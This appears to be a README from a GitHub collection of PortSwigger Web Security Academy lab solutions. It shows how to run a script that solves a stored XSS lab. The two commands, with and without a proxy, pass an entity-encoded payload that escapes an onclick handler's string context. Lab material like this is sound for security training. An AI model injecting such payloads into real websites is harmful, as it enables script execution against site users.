 # How to run script.py

### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "&apos;-alert(document.domain)-&apos;"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "&apos;-alert(document.domain)-&apos;" -p 127.0.0.1:8080`
